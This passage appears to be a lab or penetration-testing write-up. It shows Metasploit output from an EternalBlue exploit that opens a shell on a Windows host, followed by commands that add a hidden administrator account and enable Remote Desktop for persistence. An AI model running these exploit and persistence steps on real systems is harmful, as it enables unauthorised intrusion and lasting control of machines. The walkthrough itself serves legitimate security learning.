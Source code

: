 ```bash
[+] 10.0.3.27:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.0.3.27:445 - Trying exploit with 12 Groom Allocations.
[*] 10.0.3.27:445 - Sending all but last fragment of exploit packet
[*] 10.0.3.27:445 - Starting non-paged pool grooming
[+] 10.0.3.27:445 - Sending SMBv2 buffers
[+] 10.0.3.27:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.0.3.27:445 - Sending final SMBv2 buffers.
[*] 10.0.3.27:445 - Sending last fragment of exploit packet!
[*] 10.0.3.27:445 - Receiving response from exploit packet
[+] 10.0.3.27:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.3.27:445 - Sending egg to corrupted connection.
[*] 10.0.3.27:445 - Triggering free of corrupted buffer.
[*] Started bind TCP handler against 10.0.3.27:4444
[*] Command shell session 1 opened (192.168.10.50:40507 -> 10.0.3.27:4444) at 2018-11-28 14:22:20 -0500
[+] 10.0.3.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.3.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.3.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

We will now have access to a shell. I will be testing this by writing and then reading a file.

```bash

C:\Windows\system32>echo "GENERAL KENOBI" > Hello_there
echo "GENERAL KENOBI" > Hello_there

C:\Windows\system32>type Hello_there
type Hello_there
"GENERAL KENOBI" 

```

Although this gives us a lot of access, it is only temporary. This could be patched out with an update so more permanent access is needed. This will be done by creating a brand new user and giving them a high level of permission.

```bash

C:\Windows\system32>net user /add sean testing123!
net user /add sean testing123!
The command completed successfully.

C:\Windows\system32>net localgroup administrators sean /add
net localgroup administrators sean /add
The command completed successfully.


C:\Windows\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
The operation completed successfully.

C:\Windows\system32>
```
